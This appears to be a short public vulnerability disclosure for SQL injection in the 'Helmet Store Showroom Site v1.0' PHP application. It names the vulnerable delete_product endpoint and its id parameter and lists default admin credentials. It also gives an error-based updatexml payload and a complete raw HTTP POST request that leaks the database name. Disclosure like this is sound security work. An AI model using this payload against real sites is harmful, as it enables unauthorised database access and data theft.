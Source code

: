 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/classes/Master.php?f=delete_product

Vulnerability location: /hss/classes/Master.php?f=delete_product,id

dbname =hss_db,length=6

[+] Payload:  id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id


```sql
POST /hss/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/hss/admin/?page=products
Content-Length: 65
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/204070039-21da45d6-94f2-451c-a3ec-4c58f3f8ea4c.png)
